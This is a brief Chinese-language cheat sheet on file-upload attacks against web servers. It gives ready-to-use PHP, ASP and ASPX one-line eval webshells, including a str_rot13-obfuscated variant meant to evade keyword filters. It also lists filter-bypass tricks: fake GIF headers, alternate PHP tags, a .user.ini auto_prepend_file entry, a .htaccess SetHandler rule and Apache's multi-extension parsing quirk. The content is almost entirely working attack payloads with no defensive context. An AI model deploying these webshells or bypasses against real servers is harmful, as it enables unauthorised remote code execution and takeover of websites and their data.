 # Upload

* ### 上传图片马

burp抓包更改后缀（php，html，js，aspx，.htaccess）

注意文件头：

```
GIF98a //GIF文件头
```

* #### 关键字屏蔽绕过：

```
<?php=
```

```
<?php

?>
```

```
<script language="php"></script>
```

上面的三句话等价

屏蔽eval、assert等木马关键字时，通过加密解密进行绕过

```
<?php 
$exp = $_POST['shell'];
@preg_replace('/ad/e','@'.str_rot13('riny').'($exp)', 'add');
?>    //等同于php一句话<?php eval($_POST[shell]);?>
```

aspx木马

```
<%@ Page Language="Jscript"%><%eval(Request.Item["shell"],"unsafe");%>
```

asp木马

```
<%eval request("shell")%>
```

特殊：通过上传.user.ini内部增加文件自动包含进行传马攻击

```
Auto_prepend_file=2.jpg
```

.htaccess强制用php进行解析

```
SetHandler application/x-httpd-php
```

Apache的解析机制绕过

APACHE默认文件名中可以带.号，当解析文件遇到.号时，从右至左依次解析。比如：test.php.xxx.aaa，.xxx和.aaa这两种后缀是apache不可识别解析,apache就会把test.php.xxx.aaa解析成test.php

